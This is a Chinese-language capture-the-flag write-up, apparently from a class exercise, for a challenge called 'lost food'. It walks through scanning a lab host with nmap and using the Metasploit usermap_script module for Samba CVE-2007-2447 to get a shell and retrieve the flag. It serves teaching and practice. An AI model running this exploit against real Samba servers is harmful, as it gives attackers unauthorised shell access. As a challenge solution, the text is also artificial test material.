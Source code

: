 # metasploit

## [40] lost food
### **topic**

駭客貓貓在攻擊目標 (172.63.0.21) 中途把食物弄丟了！

回來的駭客貓貓又餓又累，看起來是不能親自取回食物了，請進入駭客貓貓的家，入侵目標，幫駭客貓貓找回他的食物！

> s...am...b...a...
> 
> 2...0...07...24...4...7...
> 
> by 駭客貓貓

註記：

請利用ssh連線至主機後在主機上操作。

ssh帳號與密碼都是學號，可登入後自行修改

ssh mid.macacahub.tw -p 22000 -l "帳號"


### **hint**

> CVE

### **solution**
駭客貓貓留下兩句話，一句話透漏主機有 samba 的弱點，而另一句話則是暗示 CVE-2007-2447。

連入主機後先用 nmap 掃描靶機確認漏洞。

> ![](./img/metasploit_port_scan.png)

開的 port 不多，samba 預設使用 445 port，不須額外尋找其他 port。

使用 msfconsole 進入 metasploit 後搜尋 samba 的模組。
```shell=
msf> search samba
```
> ![](./img/metasploit_search.png)

根據題意，搜尋 [20072447](https://bfy.tw/S2vX) 後應可查到唯一的 Samba Usermap Script 漏洞，請使用對應的 module。

```shell=
msf> use exploit/multi/samba/usermap_script
msf> show options
```
> ![](./img/metasploit_options.png)

照選項填完 RHOST 以及 RPORT 即可，因不是考點，該題不需修改其他東西。

取得 shell 後應可看到 hacker_meow 留下的flag
